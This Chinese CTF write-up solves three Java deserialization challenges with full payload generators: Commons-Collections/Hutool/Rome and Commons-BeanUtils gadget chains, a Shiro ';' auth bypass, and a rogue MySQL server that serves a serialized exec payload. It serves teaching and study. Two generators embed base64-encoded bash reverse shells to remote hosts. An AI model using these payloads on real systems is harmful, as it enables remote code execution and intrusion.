


# 记几道CTF-Java反序列化题目 - 先知社区

记几道CTF-Java反序列化题目

- - -

# \[CISCN 2023\]deserbug

1、从附件中可以看到两个依赖，分别是`common-colletions-3.2.2`和`hutool-all-5.8.18`两个版本，首先能够想到的就是常规的`CC`链子，需要注意的是这里使用的是`CC3.2.2`，比我们漏洞百出的`3.2.1`多了一个小版本，换上这个小版本对之前的东西进行复现发现会出现报错，原因是多了一个`checkUnsafeSerialization`函数，对序列化的类进行了检查，禁止了以下一些类的序列化。

```plain
WhileClosure
CloneTransformer
ForClosure
InstantiateFactory
InstantiateTransformer
InvokerTransformer
PrototypeCloneFactory
PrototypeSerializationFactory
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120181611-ef6c43dc-b77c-1.png)

2、在看一下源码，只有两个类，一个是`MyExpect`类，一个是`Testapp`类

```plain
package com.app;
 import java.lang.reflect.Constructor;
 public class Myexpect
   extends Exception {
   private Class[] typeparam;
   private Object[] typearg;
   public Class getTargetclass() {
         return this.targetclass;
   }
   private Class targetclass; public String name; public String anyexcept;
   public void setTargetclass(Class targetclass) {
         this.targetclass = targetclass;
   }
   public Object[] getTypearg() {
         return this.typearg;
   }
   public void setTypearg(Object[] typearg) {
         this.typearg = typearg;
   }
   public Object getAnyexcept() throws Exception {
         Constructor con = this.targetclass.getConstructor(this.typeparam);
         return con.newInstance(this.typearg);
   }
   public void setAnyexcept(String anyexcept) {
         this.anyexcept = anyexcept;
   }
   public Class[] getTypeparam() {
         return this.typeparam;
   }
   public void setTypeparam(Class[] typeparam) {
         this.typeparam = typeparam;
   }
   public String getName() {
         return this.name;
   }
   public void setName(String name) {
         this.name = name;
   }
 }
```

```plain
package com.app;

 import cn.hutool.http.ContentType;
 import cn.hutool.http.HttpUtil;
 import cn.hutool.http.server.HttpServerRequest;
 import cn.hutool.http.server.HttpServerResponse;
 import java.io.ByteArrayInputStream;
 import java.io.IOException;
 import java.io.ObjectInputStream;
 import java.util.Base64;

 public class Testapp {
   public static void main(String[] args) {
         HttpUtil.createServer(8888)
           .addAction("/", (request, response) -> {
           String bugstr = request.getParam("bugstr");
           String result = "";
           if (bugstr == null) {
             response.write("welcome,plz give me bugstr", ContentType.TEXT_PLAIN.toString());
           }
           try {
             byte[] decode = Base64.getDecoder().decode(bugstr);
             ObjectInputStream inputStream = new ObjectInputStream(new ByteArrayInputStream(decode));
             Object object = inputStream.readObject();
             result = object.toString();
               } catch (Exception e) {
             Myexpect myexpect = new Myexpect();
             myexpect.setTypeparam(new Class[] { String.class });
             myexpect.setTypearg((Object[])new String[] { e.toString() });
             myexpect.setTargetclass(e.getClass());
             try {
               result = myexpect.getAnyexcept().toString();
                 } catch (Exception ex) {
               result = ex.toString();
             } 
           }
           response.write(result, ContentType.TEXT_PLAIN.toString());
             }).start();
   }
 }
```

> 看到了`getAnyexcept()`方法中存在类实例化的条件，这与某条CC链中，要使用`InstantiateTransformer#transform`中的代码类似，很明显是作者故意给的。再看Web页面接收`bugstr`参数，经过base64解码转化为对象流后直接进行了`readObject`进行反序列化，因此这里肯定是要通过`CC链+getAnyexcept()`来触发漏洞，但是怎么触发`getAnyexcept()`呢？

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205132-78f3f514-b6c9-1.png)

这里出题人给了一个提示就是`cn.hutool.json.JSONObject.put->com.app.Myexpect#getAnyexcept`，通过`hutools`中的`put`返回能够触发`getAnyexcept`，可能就是与`fastjson`触发`get`函数有点相似，通过这里就可以串起整个`CC`链子，可以通过`getAnyexcept`实例化`TrAXFilter`，接而触发`templates`加载字节码触发RCE。

```plain
public TrAXFilter(Templates templates)  throws
        TransformerConfigurationException
    {
        _templates = templates;
        _transformer = (TransformerImpl) templates.newTransformer();
        _transformerHandler = new TransformerHandlerImpl(_transformer);
        _useServicesMechanism = _transformer.useServicesMechnism();
    }
```

接下来的问题就是通过什么来触发`cn.hutool.json.JSONObject.put`方法，在`LazyMap`中，存在`LazyMap#get`是可以触发`map.put` 方法来触发，因此就可以用CC链串起来了。

```plain
HashMap#readObject()->HashMap#hash()->TiedMapEntry#hashCode()->TiedMapEntry#getValue()->LazyMap#get()->cn.hutool.json.JSONObject.put()->Myexpect#getAnyexcept()->TrAXFilter#constructor()
->TemplatesImpl#newTransformer()
->Runtime.exec
```

整个payload如下：

```plain
package com.app;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

import cn.hutool.json.JSONObject;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.util.Base64;
import java.util.HashMap;


public class MyPOC {
    public static void main(String[] args) throws Exception {
        byte[] bytes = getTemplates();
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "1");
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        Myexpect myexpect = new Myexpect();
        myexpect.setTargetclass(TrAXFilter.class);
        myexpect.setTypeparam(new Class[]{Templates.class});
        myexpect.setTypearg(new Object[]{templates});
        JSONObject jsonObject = new JSONObject();
        ConstantTransformer transformer = new ConstantTransformer(1);
        LazyMap lazyMap  = (LazyMap) LazyMap.decorate(jsonObject,transformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap , "111");
        HashMap hashMap = new HashMap();
        hashMap.put(tiedMapEntry, "1");
        jsonObject.remove("111");//if (map.containsKey(key) == false)
        setFieldValue(transformer,"iConstant",myexpect);
        byte[] serialize = serialize(hashMap);
        System.out.println(Base64.getEncoder().encodeToString(serialize));

    }

public static  byte[] serialize(Object object) throws IOException {
    ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
    ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
    objectOutputStream.writeObject(object);
    return byteArrayOutputStream.toByteArray();
}

public static void setFieldValue(Object obj, String field, Object val) throws Exception{
        Field dField = obj.getClass().getDeclaredField(field);
        dField.setAccessible(true);
        dField.set(obj, val);
    }
    public static byte[] getTemplates() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass template = pool.makeClass("Test");
        template.setSuperclass(pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        String block = "Runtime.getRuntime().exec(\"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuNzkuMjkuMTcwLzQ0NDQgMD4mIDE=}|{base64,-d}|{bash,-i}\");";
        template.makeClassInitializer().insertBefore(block);
        return template.toBytecode();
    }
}
```

尝试下修改一下这题，`hutool`改成`Rome`同样也是可以触发，不过需要将`Myexpect#setAnyexcept`类修改一下，将返回类型与`getAnyexcept`一致，这样在创建`PropertyDescriptor`的时候才符合`read和write方法类型一致`，不产生报错。

```plain
public Object setAnyexcept(String anyexcept) {
        this.anyexcept = anyexcept;
        return null;
    }
```

Gadget如下：

```plain
BadAttributeValueExpException#readObject()->ToStringBean#toString->
        Myexpect#getAnyexcept->TrAXFilter#constructor()
        templatesImpl#newTransformer->templatesImpl#getTransletInstance->
        templatesImpl#defineTransletClasses->newInstance()
```

```plain
package com.app;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;

public class ROMEToCC {
    public static void main(String[] args) throws Exception {
        byte[] code = getTemplates();
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "useless");
        setFieldValue(templates, "_tfactory",  new TransformerFactoryImpl());
        setFieldValue(templates, "_bytecodes", codes);
        Myexpect myexpect=new Myexpect();
        myexpect.setTargetclass(TrAXFilter.class);
        myexpect.setTypeparam(new Class[]{Templates.class});
        myexpect.setTypearg(new Object[]{templates});
        ToStringBean toStringBean=new ToStringBean(Myexpect.class,myexpect);
        BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException,"val",toStringBean);
        serialize(badAttributeValueExpException);
        unserialize();

//        EqualsBean equalsBean=new EqualsBean(String.class,"aiwin");
//        HashMap hashMap=new HashMap();
//        hashMap.put(equalsBean,"111");
//        setFieldValue(equalsBean,"_beanClass",ToStringBean.class);
//        setFieldValue(equalsBean,"_obj",toStringBean);
//        serialize(hashMap);
//        unserialize();
    }

    public static void setFieldValue(Object obj,String field,Object val) throws NoSuchFieldException, IllegalAccessException {
        Field field1=obj.getClass().getDeclaredField(field);
        field1.setAccessible(true);
        field1.set(obj,val);
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream=new ObjectOutputStream(new FileOutputStream("ser.bin"));
        objectOutputStream.writeObject(obj);
    }
    public static void unserialize() throws IOException, ClassNotFoundException {
        ObjectInputStream objectInputStream=new ObjectInputStream(new FileInputStream("ser.bin"));
        objectInputStream.readObject();
    }
    public static byte[] getTemplates() throws CannotCompileException, NotFoundException, IOException {
        ClassPool classPool=ClassPool.getDefault();
        CtClass ctClass=classPool.makeClass("Test");
        ctClass.setSuperclass(classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        String block = "Runtime.getRuntime().exec(\"calc\");";
        ctClass.makeClassInitializer().insertBefore(block);
        return ctClass.toBytecode();
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205203-8b4c2fec-b6c9-1.png)

# \[MTCTF2022\]easyjava

1、看题目附件源码:

```plain
package com.butler.springboot14shiro.MyController;

import com.butler.springboot14shiro.Util.MyObjectInputStream;
import java.io.ByteArrayInputStream;
import java.io.InputStream;
import java.util.Base64;
import org.apache.shiro.SecurityUtils;
import org.apache.shiro.authc.IncorrectCredentialsException;
import org.apache.shiro.authc.UnknownAccountException;
import org.apache.shiro.authc.UsernamePasswordToken;
import org.apache.shiro.subject.Subject;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;

@Controller
public class HelloController {
    public HelloController() {
    }

    @RequestMapping({"/"})
    public String index(Model model) {
        model.addAttribute("msg", "Hello World");
        return "login";
    }

    @RequestMapping({"/login"})
    public String login(String username, String password, Model model) {
        Subject subject = SecurityUtils.getSubject();
        UsernamePasswordToken token = new UsernamePasswordToken(username, password);

        try {
            subject.login(token);
            return "admin/hello";
        } catch (UnknownAccountException var7) {
            model.addAttribute("msg", "用户名错误");
            return "login";
        } catch (IncorrectCredentialsException var8) {
            model.addAttribute("msg", "密码错误");
            return "login";
        }
    }

    @RequestMapping({"/admin/hello"})
    public String admin(@RequestParam(name = "data",required = false) String data, Model model) throws Exception {
        try {
            byte[] decode = Base64.getDecoder().decode(data);
            InputStream inputStream = new ByteArrayInputStream(decode);
            MyObjectInputStream myObjectInputStream = new MyObjectInputStream(inputStream);
            myObjectInputStream.readObject();
        } catch (Exception var6) {
            var6.printStackTrace();
            model.addAttribute("msg", "data=");
        }

        return "admin/hello";
    }
}
```

> 很明显，需要进入`/admin`页面传入`data`参数来触发反序列化，这里通过`Shiro`进行了权限认证，但是`Shiro`的版本是`1.5.2` ，查一看这个版本的框架是存在通过`;`绕过权限认证的漏洞，因此访问`/admin/hello`的问题就解决了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205212-904e4b56-b6c9-1.png)

2、看一下`MyObjectInputStream`，发现它重写了`ObjectInputStream`方法，方法中过滤了四个类，阻止了使用`Hibernate`反序列化链和`Jdbc`链子，但是这里是Shiro，内置的`BeanComparator`并没有被过滤，因此可以打`CB`链子，注意这里是`commons-beanutils1.9.4`，做poc的时候也要换成相同的版本，否则是报`serializeUID`错误。

```plain
package com.butler.springboot14shiro.Util;

import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;
import java.util.ArrayList;
import java.util.Iterator;

public class MyObjectInputStream extends ObjectInputStream {
    private static ArrayList<String> blackList = new ArrayList();

    public MyObjectInputStream(InputStream inputStream) throws Exception {
        super(inputStream);
    }

    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        Iterator var2 = blackList.iterator();

        String s;
        do {
            if (!var2.hasNext()) {
                return super.resolveClass(desc);
            }

            s = (String)var2.next();
        } while(!desc.getName().contains(s));

        throw new ClassNotFoundException("Don't hacker!");
    }

    static {
        blackList.add("com.sun.org.apache.xalan.internal.xsltc.traxTemplatesImpl");
        blackList.add("org.hibernate.tuple.component.PojoComponentTuplizer");
        blackList.add("java.security.SignedObject");
        blackList.add("com.sun.rowset.JdbcRowSetImpl");
    }
}
```

3、整个Gadgets如下：

```plain
PriorityQueue.readObject()->PriorityQueue.siftDownUsingComparator()->BeanComparator.compare()->TemplateImpl.getOutputProperties()->TemplateImpl.newTransformer->动态调用类
```

4、payload如下：

```plain
package com.app;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xml.internal.security.c14n.helper.AttrCompare;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.springframework.context.annotation.Bean;
import sun.print.SunPageSelection;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;

public class MTCTF2022_easyjava {
    public static void main(String[] args) throws Exception {
        //PriorityQueue.readObject()->PriorityQueue.siftDownUsingComparator()->BeanComparator.compare()
        // ->TemplateImpl.getOutputProperties()->TemplateImpl.newTransformer->动态调用类
        byte[] code=getTemplates();
        byte[][] codes={code};
        TemplatesImpl templates=new TemplatesImpl();
        setFieldValue(templates,"_name","aaa");
        setFieldValue(templates,"_class",null);
        setFieldValue(templates,"_bytecodes",codes);
        BeanComparator beanComparator=new BeanComparator("outputProperties",new AttrCompare());
        BeanComparator beanComparator1=new BeanComparator();
        PriorityQueue priorityQueue=new PriorityQueue(beanComparator1);
        priorityQueue.add("1");
        priorityQueue.add("2");
        setFieldValue(beanComparator,"property","outputProperties");
        setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        setFieldValue(priorityQueue,"comparator",beanComparator);

        byte[] result=serialize(priorityQueue);
        System.out.println(Base64.getEncoder().encodeToString(result));

    }
    public static void unserialize(String filename) throws IOException, ClassNotFoundException {
        ObjectInputStream objectInputStream=new ObjectInputStream(new FileInputStream(filename));
        objectInputStream.readObject();
    }

    public static  byte[] serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        return byteArrayOutputStream.toByteArray();
    }

    public static void setFieldValue(Object obj, String field, Object val) throws Exception{
        Field dField = obj.getClass().getDeclaredField(field);
        dField.setAccessible(true);
        dField.set(obj, val);
    }
    public static byte[] getTemplates() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass template = pool.makeClass("Test");
        template.setSuperclass(pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        String block = "Runtime.getRuntime().exec(\"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzLjEzNy80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}\");";
        template.makeClassInitializer().insertBefore(block);
        return template.toBytecode();
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205221-95b6843c-b6c9-1.png)

# \[羊城杯 2020\]a\_piece\_of\_java

1、查看源码，发现在`/hello`路径能够对Cookie中的data进行反序列化，然后在依赖中看到了`CC链子`，原本以为可以直接打，在本地打了一波发现报错了，报错`HashMap whitelist not match`，然后就看到了这里序列化使用的类不一样，使用的是`SerialKiller` ，好像是可以规范了一些类的使用，看`serialkiller.conf`看到了只能使用`java.lang和gdufs`两个路径的类，因此直接打是不成功的。

```plain
@GetMapping({"/hello"})
    public String hello(@CookieValue(value = "data",required = false) String cookieData, Model model) {
        if (cookieData != null && !cookieData.equals("")) {
            Info info = (Info)this.deserialize(cookieData);
            if (info != null) {
                model.addAttribute("info", info.getAllInfo());
            }

            return "hello";
        } else {
            return "redirect:/index";
        }
    }
    private Object deserialize(String base64data) {
        ByteArrayInputStream bais = new ByteArrayInputStream(Base64.getDecoder().decode(base64data));

        try {
            ObjectInputStream ois = new SerialKiller(bais, "serialkiller.conf");
            Object obj = ois.readObject();
            ois.close();
            return obj;
        } catch (Exception var5) {
            var5.printStackTrace();
            return null;
        }
    }
```

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!-- serialkiller.conf -->
<config>
    <refresh>6000</refresh>
    <mode>
        <!-- set to 'false' for blocking mode -->
        <profiling>false</profiling>
    </mode>
    <blacklist>

    </blacklist>
    <whitelist>
        <regexp>gdufs\..*</regexp>
        <regexp>java\.lang\..*</regexp>
    </whitelist>
</config>
```

2、再找其它依赖发现还有`mysql-connect-8.0.19`，并且存在`jdbc`连接，所以这里其实是通过`jdbc`反序列化通过`CC`链进行RCE的打法，从`connect()`可以看到`DriverManager.getConnection`是可以触发`jdbc`反序列化，可以通过`checkAllInfo`触发。

```plain
private void connect() {
        String url = "jdbc:mysql://" + this.host + ":" + this.port + "/jdbc?user=" + this.username + "&password=" + this.password + "&connectTimeout=3000&socketTimeout=6000";

        try {
            this.connection = DriverManager.getConnection(url);
        } catch (Exception var3) {
            var3.printStackTrace();
        }

    }

    public Boolean checkAllInfo() {
        if (this.host != null && this.port != null && this.username != null && this.password != null) {
            if (this.connection == null) {
                this.connect();
            }

            return true;
        } else {
            return false;
        }
    }
```

3、而`checkAllinfo`可以在`InfoInvocationHandler`中看到被调用了，至于怎么调用`invoke`，这里可以使用动态代理，动态代理底层调用的是`InvocationHandler`类，调用被代理类的任意方法都会触发它的`invoke`方法，所以在序列化写入的时候会自动调用`invoke`方法。

```plain
public class InfoInvocationHandler implements InvocationHandler, Serializable {
    private Info info;

    public InfoInvocationHandler(Info info) {
        this.info = info;
    }

    public Object invoke(Object proxy, Method method, Object[] args) {
        try {
            return method.getName().equals("getAllInfo") && !this.info.checkAllInfo() ? null : method.invoke(this.info, args);
        } catch (Exception var5) {
            var5.printStackTrace();
            return null;
        }
    }
}
```

4、因此可以起一个恶意的mysql服务器，进行RCE，github上面搜的mysql恶意服务器如下：

```plain
import socket
import binascii
import os
greeting_data="4a0000000a352e372e31390008000000463b452623342c2d00fff7080200ff811500000000000000000000032851553e5c23502c51366a006d7973716c5f6e61746976655f70617373776f726400"
response_ok_data="0700000200000002000000"

def receive_data(conn):
   data = conn.recv(1024)
   print("[*] Receiveing the package : {}".format(data))
   return str(data).lower()

def send_data(conn,data):
   print("[*] Sending the package : {}".format(data))
   conn.send(binascii.a2b_hex(data))

def get_payload_content():
   #file文件的内容使用ysoserial生成的 使用规则  java -jar ysoserial [common7那个]  "calc" > payload 
   file= r'payload'
   if os.path.isfile(file):
       with open(file, 'rb') as f:
           payload_content = str(binascii.b2a_hex(f.read()),encoding='utf-8')
       print("open successs")

   else:
       print("open false")
       #calc
       payload_content='aced0005737200116a6176612e7574696c2e48617368536574ba44859596b8b7340300007870770c000000023f40000000000001737200346f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6b657976616c75652e546965644d6170456e7472798aadd29b39c11fdb0200024c00036b65797400124c6a6176612f6c616e672f4f626a6563743b4c00036d617074000f4c6a6176612f7574696c2f4d61703b7870740003666f6f7372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e7471007e00037870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e001b00000002767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e001b7371007e00137571007e001800000002707571007e001800000000740006696e766f6b657571007e001b00000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e00187371007e0013757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b4702000078700000000174000463616c63740004657865637571007e001b0000000171007e00207371007e000f737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000077080000001000000000787878'
   return payload_content

# 主要逻辑
def run():

   while 1:
       conn, addr = sk.accept()
       print("Connection come from {}:{}".format(addr[0],addr[1]))

       # 1.先发送第一个 问候报文
       send_data(conn,greeting_data)

       while True:
           # 登录认证过程模拟  1.客户端发送request login报文 2.服务端响应response_ok
           receive_data(conn)
           send_data(conn,response_ok_data)

           #其他过程
           data=receive_data(conn)
           #查询一些配置信息,其中会发送自己的 版本号
           if "session.auto_increment_increment" in data:
               _payload='01000001132e00000203646566000000186175746f5f696e6372656d656e745f696e6372656d656e74000c3f001500000008a0000000002a00000303646566000000146368617261637465725f7365745f636c69656e74000c21000c000000fd00001f00002e00000403646566000000186368617261637465725f7365745f636f6e6e656374696f6e000c21000c000000fd00001f00002b00000503646566000000156368617261637465725f7365745f726573756c7473000c21000c000000fd00001f00002a00000603646566000000146368617261637465725f7365745f736572766572000c210012000000fd00001f0000260000070364656600000010636f6c6c6174696f6e5f736572766572000c210033000000fd00001f000022000008036465660000000c696e69745f636f6e6e656374000c210000000000fd00001f0000290000090364656600000013696e7465726163746976655f74696d656f7574000c3f001500000008a0000000001d00000a03646566000000076c6963656e7365000c210009000000fd00001f00002c00000b03646566000000166c6f7765725f636173655f7461626c655f6e616d6573000c3f001500000008a0000000002800000c03646566000000126d61785f616c6c6f7765645f7061636b6574000c3f001500000008a0000000002700000d03646566000000116e65745f77726974655f74696d656f7574000c3f001500000008a0000000002600000e036465660000001071756572795f63616368655f73697a65000c3f001500000008a0000000002600000f036465660000001071756572795f63616368655f74797065000c210009000000fd00001f00001e000010036465660000000873716c5f6d6f6465000c21009b010000fd00001f000026000011036465660000001073797374656d5f74696d655f7a6f6e65000c21001b000000fd00001f00001f000012036465660000000974696d655f7a6f6e65000c210012000000fd00001f00002b00001303646566000000157472616e73616374696f6e5f69736f6c6174696f6e000c21002d000000fd00001f000022000014036465660000000c776169745f74696d656f7574000c3f001500000008a000000000020100150131047574663804757466380475746638066c6174696e31116c6174696e315f737765646973685f6369000532383830300347504c013107343139343330340236300731303438353736034f4646894f4e4c595f46554c4c5f47524f55505f42592c5354524943545f5452414e535f5441424c45532c4e4f5f5a45524f5f494e5f444154452c4e4f5f5a45524f5f444154452c4552524f525f464f525f4449564953494f4e5f42595f5a45524f2c4e4f5f4155544f5f4352454154455f555345522c4e4f5f454e47494e455f535542535449545554494f4e0cd6d0b9fab1ead7bccab1bce4062b30383a30300f52455045415441424c452d5245414405323838303007000016fe000002000000'
               send_data(conn,_payload)
               data=receive_data(conn)
           elif "show warnings" in data:
               _payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f000059000005075761726e696e6704313238374b27404071756572795f63616368655f73697a6527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e59000006075761726e696e6704313238374b27404071756572795f63616368655f7479706527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e07000007fe000002000000'
               send_data(conn, _payload)
               data = receive_data(conn)
           if "set names" in data:
               send_data(conn, response_ok_data)
               data = receive_data(conn)
           if "set character_set_results" in data:
               send_data(conn, response_ok_data)
               data = receive_data(conn)
           if "show session status" in data:
               mysql_data = '0100000102'
               mysql_data += '1a000002036465660001630163016301630c3f00ffff0000fc9000000000'
               mysql_data += '1a000003036465660001630163016301630c3f00ffff0000fc9000000000'
               #获取payload
               payload_content=get_payload_content()
               #计算payload长度
               payload_length = str(hex(len(payload_content)//2)).replace('0x', '').zfill(4)
               payload_length_hex = payload_length[2:4] + payload_length[0:2]
               #计算数据包长度
               data_len = str(hex(len(payload_content)//2 + 4)).replace('0x', '').zfill(6)
               data_len_hex = data_len[4:6] + data_len[2:4] + data_len[0:2]
               mysql_data += data_len_hex + '04' + 'fbfc'+ payload_length_hex
               mysql_data += str(payload_content)
               mysql_data += '07000005fe000022000100'
               send_data(conn, mysql_data)
               data = receive_data(conn)
           if "show warnings" in data:
               payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f00006d000005044e6f74650431313035625175657279202753484f572053455353494f4e20535441545553272072657772697474656e20746f202773656c6563742069642c6f626a2066726f6d2063657368692e6f626a73272062792061207175657279207265777269746520706c7567696e07000006fe000002000000'
               send_data(conn, payload)
           break


if __name__ == '__main__':
   HOST ='0.0.0.0'
   PORT = 3309
   sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   #当socket关闭后，本地端用于该socket的端口号立刻就可以被重用.为了实验的时候不用等待很长时间
   sk.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
   sk.bind((HOST, PORT))
   sk.listen(1)
   print("start fake mysql server listening on {}:{}".format(HOST,PORT))
   run()
```

